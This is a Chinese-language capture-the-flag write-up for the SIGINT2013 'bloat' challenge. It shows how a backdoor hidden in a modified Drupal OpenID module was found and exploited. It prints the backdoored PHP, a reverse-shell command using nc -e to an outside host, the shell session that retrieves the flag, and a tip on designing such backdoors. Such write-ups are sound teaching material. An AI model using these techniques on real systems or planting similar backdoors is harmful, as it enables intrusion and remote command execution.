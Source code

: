 ```yaml
---
layout: post
title: "SIGINT2013 cloud200 bloat"
description: "SIGINT2013 cloud200 bloat hunt for backdoor"
category: "writeup"
tags: ["SIGINT2013", "web", "writeup"]
---
```

{% include JB/setup %}
#SIGINT2013 cloud200 bloat

Description

    My friend set up this site for me. I don't trust him.
    He installed a backdoor for sure. Can you find it?
    He just wrote me, what this system is using.
    Somehow it looks diff-erent o_O:

[cdd-7.20.tar_0.gz](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/cdd-7.20.tar_0.gz)
[source_code.tar.bz2](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/source_code.tar.bz2)

这道题比赛的时候只有一个队伍做出来。虽然只有200分，但过程比较复杂。
我本来预期花一两个小时就能解决这个问题，结果却耗费了四个小时。

首先也是最关键的问题就是如何找到后门。
这个网站使用的是开源系统drupal 7.20，还附带了一些插件。但问题并不是直接diff那么简单。
官方的源码附有详细的注释，但修改版中将所有注释全部删掉了，还把代码风格从K&R风格改成了一种很混乱的样子，甚至将所有的变量名替换成了奇奇怪怪的东西。

手工查找人眼识别几乎是不可行的。必须想其它办法。

比赛的时候卡在其他题上面了，没有时间仔细看这道题。事后才想起来可以写一个文本处理器，把php文件全部“格式化”一遍：去掉注释+统一格式+统一变量命名。

[PHP_filter.cpp](https://github.com/5lipper/CTF-Challenges/blob/master/SIGINT2013/cloud/bloat/filter.cpp)

处理注释是最麻烦的一步，要判断引号和各种注释符，最终版本的代码也还有瑕疵。
因为只需要比对出文件的不同之处，所以不需要维护代码风格和变量名。为了统一，我把所有可能换行的`{};,:()`全都强行换行，又将所有变量名指定成了$000。

用这个非常挫的文本处理器半自动操作，效率已经比人眼识别提升很多，而且出错率降低很多。
但是将所有`.php`文件对比之后并没有什么收获。
再去查看源码中的文件，发现`.php`的文件其实并不多。很多插件都是以`.inc\.module`这样的后缀结尾的。

再扫描一遍`.inc`后缀的文件，果然发现有一个文件`./bloat/modules/openid/openid.inc`略有不同。

    10 define('OPENID_DH_DEFAULT_GEN', '86');
    
而原版中的openid是

    22 /**
    23  * Diffie-Hellman generator; used for Diffie-Hellman key exchange computations.
    24  */
    25 define('OPENID_DH_DEFAULT_GEN', '2');
    
这是跟用户认证有关的一个常量。修改这种值也许会造成认证系统的一些缺陷。
继续看代码，我有了更大的收获。

在`./bloat/modules/openid/openid.module`中代码逻辑与原版有明显的不同。

    197 function openid_login_validate($quench, &$tickers)
    198    {
    199 $return_to = $tickers['values']['openid.return_to'];
    ...
    204   openid_begin($tickers['values']['openid_identifier'], $return_to, $tickers['values']);
    ... 
    207      function openid_begin($imaginably, $overlay = '', $termination = array())
    ...
    212       if(strpos($imaginably, '@'))
    213   {
    214    list($user, $host) = explode('@', $imaginably, 2);                                                                                                                                         
    215 }
    216 else
    217     {
    218      $user = false;
    219      $host = false;
    220      }
    
`214    list($user, $host) = explode('@', $imaginably, 2);`中`$imaginably`正是用户提交的认证用户名。
再来看看这些变量做了什么。

    248 $user_enc = _openid_dh_long_to_base64($user * OPENID_DH_DEFAULT_GEN);
    249     $service['uri'] = drupal_map_assoc(array($host), $user_enc);
    259   openid_redirect($service['uri'], $ramparts);
    
这里用到了修改过的常量`OPENID_DH_DEFAULT_GEN`。
drupal_map_assoc()返回的是数组，所以在redirect过程中会被强转成字符串"Array"，最后在跳转的时候会出错。
而这个[drupal_map_assoc()](https://api.drupal.org/api/drupal/includes%21common.inc/function/drupal_map_assoc/7)则暗藏玄机。
根据官方文档，drupal_map_assoc()会把第一个参数$array中的每个参数依次传入第二个参数$callable执行并返回一个数组。
这里藏着一个命令执行后门啊。。。。
只要`is_callable($user_enc)`就能直接执行`$user_enc($host)`。
而`$user_enc`是从`$user * OPENID_DH_DEFAULT_GEN`解出来的。
因为`OPENID_DH_DEFAULT_GEN`的限制，所以这个`$user_enc`必须是按照base64解成整形之后能整除86（中间还有一些过程）。

现在要做的就是找一个合适的函数，恰好能满足这个条件了。

    slipper@NULL:~/CTF/SigintCTF2013/cloud/bloat/bloat/modules/openid$ php -a
    Interactive shell
    
    php > include './openid.inc';
    php > var_dump(is_callable('system'));
    bool(true)
    php > var_dump(is_callable('systeM'));
    bool(true)
    php > echo _openid_dh_base64_to_long('system')/OPENID_DH_DEFAULT_GEN ."\n";
    34952922.72093
    php > echo _openid_dh_base64_to_long('System')/OPENID_DH_DEFAULT_GEN ."\n";
    14664196.395349
    php > echo _openid_dh_base64_to_long('SYstem')/OPENID_DH_DEFAULT_GEN ."\n";
    14347185.046512
    php > echo _openid_dh_base64_to_long('eval')/OPENID_DH_DEFAULT_GEN ."\n";
    93703.872093023
    php > echo _openid_dh_base64_to_long('exec')/OPENID_DH_DEFAULT_GEN ."\n";
    93802


因为这里的is_callable是不区分大小写的，本来我还以为后门作者刻意选择了大小写混用的函数名，本来差点要写程序暴搜的。还好偶然发现exec正好符合要求。^_^

**如果以后要用这种方法做后门，记得一个有大因子的大小写混用的函数名哦。**

接下来就是命令执行了。
可是用`93802@echo a > a`结果并没有生成文件a。似乎对网站的目录木有写权限。
如果要获取flag，必须要有传递信息的途径。
唯一能想到的方法就只有反连了。
幸运的是服务起的nc有-e选项，正好可以交互，不然还得一次一次地执行命令。

用`93802@nc x.x.x.x 8080 -e /bin/sh`反弹，本地用`nc -l 8080`监听。
    pwd
    /var/www
    ls -la ./
    total 7904
    drwxr-xr-x  9 root root    4096 Jul  5 01:23 .
    drwxr-xr-x 14 root root    4096 Jul  5 01:53 ..
    -rw-r--r--  1 root root   75028 Mar  7 17:26 CHANGELOG.txt
    -rw-r--r--  1 root root    1481 Mar  7 17:26 COPYRIGHT.txt
    ...
    -rw-r--r--  1 root root      34 Jul  5 01:01 ___F_L_A_G___
    ...
    cat ___F_L_A_G___
    not here, see /flag on filesystem
    cat /flag
    SIGINT_d4b0844c

看来果然是木有写权限～～
